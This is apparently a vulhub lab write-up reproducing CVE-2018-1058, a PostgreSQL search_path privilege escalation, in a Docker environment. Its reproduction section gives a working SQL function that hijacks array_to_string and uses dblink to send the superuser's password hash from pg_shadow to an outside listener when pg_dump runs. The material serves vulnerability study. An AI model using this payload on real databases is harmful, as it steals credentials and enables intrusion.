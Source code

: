 # PostgreSQL Privilege Escalation Vulnerability (CVE-2018-1058)

PostgreSQL is a relational database. There is a logic error in its versions 9.3 to 10, which causes the superuser to trigger malicious code created by ordinary users without knowing it, resulting in some unexpected operations.

Reference link:

- https://wiki.postgresql.org/wiki/A_Guide_to_CVE-2018-1058:_Protect_Your_Search_Path
- https://xianzhi.aliyun.com/forum/topic/2109

## Vulnerable environment

Start the vulnerable environment:

```
docker compose up -d
```

After the environment is started, the default 5432 port of PG will be opened locally.

## Vulnerability Reproduction

Refer to the second exploitation method in the above link, we first log in to postgres as a normal user `vulhub:vulhub`: `psql --host your-ip --username vulhub`

![](1.png)

Execute the following statement and exit:

```
CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
select dblink_connect((select 'hostaddr=10.0.0.1 port=5433 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres')));
SELECT pg_catalog.array_to_string($1,$2);
$$ LANGUAGE SQL VOLATILE;
```

Then I listened to port 5433 on `10.0.0.1`, waiting for the super user to trigger the "backdoor" we left.

(Pretend to be a super user) On the target machine, execute the `pg_dump` command as a super user: `docker compose exec postgres pg_dump -U postgres -f evil.bak vulhub` to export the contents of the vulhub database.

While executing the above command, the "backdoor" has been triggered, and the `10.0.0.1` machine has received sensitive information:

![](2.png)

The above process is only one way to exploit the vulnerability. It may be a bit messy because it involves many machines. Readers are advised to read the article in the reference link to obtain more exploitation methods.

